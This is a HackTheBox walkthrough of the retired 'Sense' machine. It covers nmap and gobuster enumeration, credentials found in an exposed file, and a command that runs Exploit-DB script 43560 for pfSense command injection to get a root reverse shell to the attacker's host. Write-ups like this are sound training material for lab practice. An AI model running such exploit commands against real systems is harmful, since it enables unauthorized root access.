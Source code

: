 ```yaml
---
title: Sense - HackTheBox Walkthrough
date: 2021-11-06 12:00:00 
categories: [HackTheBox,Linux]
tags: [exploit]
img_path: /assets/img/HTB/Sense/
image: 
  path: 00-banner.png
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Sense` a retired linuxs machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Mon Nov  1 10:57:12 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.230.105
Nmap scan report for 10.129.230.105
Host is up (0.12s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.129.230.105/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-favicon: Unknown favicon MD5: 082559A7867CF27ACAB7E9867A8B320F
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Issuer: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-10-14T19:21:35
| Not valid after:  2023-04-06T19:21:35
| MD5:   65f8 b00f 57d2 3468 2c52 0f44 8110 c622
|_SHA-1: 4f7c 9a75 cb7f 70d3 8087 08cb 8c27 20dc 05f1 bb02
|_ssl-date: TLS randomness does not represent time

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  1 10:57:45 2021 -- 1 IP address (1 host up) scanned in 32.82 seconds
```
There only two ports: `80:http` and `443:https`.

## HTTP/HTTPS Enumeration
The 80 port redirect us to 443 which is a pfsense's login form.

![01-web](01-web.png)

The [default credentials](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html): `admin/pfsense` doesn't work, so let's try discover new directories using gobuster.

```console
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.129.230.105 -k -t 100 -x php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.230.105
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/11/01 09:32:05 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.129.230.105/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.129.230.105/css/]
/includes             (Status: 301) [Size: 0] [--> https://10.129.230.105/includes/]
/license.php          (Status: 200) [Size: 6692]
/edit.php             (Status: 200) [Size: 6689]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.129.230.105/javascript/]
/changelog.txt        (Status: 200) [Size: 271]
/classes              (Status: 301) [Size: 0] [--> https://10.129.230.105/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.129.230.105/widgets/]
/graph.php            (Status: 200) [Size: 6690]
/tree                 (Status: 301) [Size: 0] [--> https://10.129.230.105/tree/]
/wizard.php           (Status: 200) [Size: 6691]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.129.230.105/shortcuts/]
/pkg.php              (Status: 200) [Size: 6688]
/installer            (Status: 301) [Size: 0] [--> https://10.129.230.105/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.129.230.105/wizards/]
/xmlrpc.php           (Status: 200) [Size: 384]
/reboot.php           (Status: 200) [Size: 6691]
/interfaces.php       (Status: 200) [Size: 6695]
/csrf                 (Status: 301) [Size: 0] [--> https://10.129.230.105/csrf/]
/system-users.txt     (Status: 200) [Size: 106]
/filebrowser          (Status: 301) [Size: 0] [--> https://10.129.230.105/filebrowser/]
/%7Echeckout%7E       (Status: 403) [Size: 345]

===============================================================
2021/11/01 09:48:43 Finished
===============================================================
```
The most interesting files are `changelog.txt` and `system-user.txt`.

![02-txt](02-txt.png)

With the second file we get Rohit's credentials.

![03-txt](03-txt.png)

User|Password
-|-
rohit | pfsense

# Explotation

Pfsense in vulnerable to a [Command Injection](https://www.exploit-db.com/exploits/43560) so we can use it to get a reverse shell.

![04-vuln](04-vuln.png)

How pfSense is running as root the shell that we got is with root privileges.

```console
$ python3 43560.py --rhost 10.129.230.105 --lhost 10.10.14.89 --lport 443 --username rohit --password pfsense
```
![05-root](05-root.png)

That’s it for now guys. Until next time.
